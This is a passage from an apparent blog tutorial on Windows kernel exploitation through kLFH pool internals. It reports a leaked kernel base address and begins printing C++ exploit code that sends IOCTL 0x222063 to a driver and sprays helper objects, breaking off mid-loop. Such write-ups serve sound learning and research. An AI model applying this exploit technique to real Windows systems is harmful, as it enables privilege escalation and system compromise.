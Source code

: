 POC time:

![](imgs/blog/8ModernLFH/20250727080109.png)

![](imgs/blog/8ModernLFH/20250727080130.png)

As we can see, we have the base address of the kernel, all thanks to knowledge of Windows pool internals and kLFH.

Here is the final code:
```cpp
#include <stdio.h>
#include <windows.h>

typedef struct _ARW_HELPER_OBJECT_IO
{
	PVOID HelperObjectAddress;
	PVOID Name;
	SIZE_T Length;
} ARW_HELPER_OBJECT_IO, * PARW_HELPER_OBJECT_IO;

bool exploit(HANDLE hFile, UINT64 addrKrnl) {

	ARW_HELPER_OBJECT_IO HelperArray[5000] = { 0 };

	printf("\n[HelperObjArray] -> 0x%p\n", HelperArray);

	ULONG bytes;

	ARW_HELPER_OBJECT_IO MyArwHelpObjIo = { 0 };
	MyArwHelpObjIo.Length = 8;

	DeviceIoControl(hFile, 0x222063, &MyArwHelpObjIo, sizeof(ARW_HELPER_OBJECT_IO), &MyArwHelpObjIo, sizeof(ARW_HELPER_OBJECT_IO), &bytes, nullptr);

	ARW_HELPER_OBJECT_IO ArwHelpObjIo = { 0 };
	ArwHelpObjIo.Length = 8;

	unsigned long long addr = 0xdeadbeefdeadbeef;

	for (unsigned int i = 0; i < 5000; i++) {

		ArwHelpObjIo.Name = &addr;

```
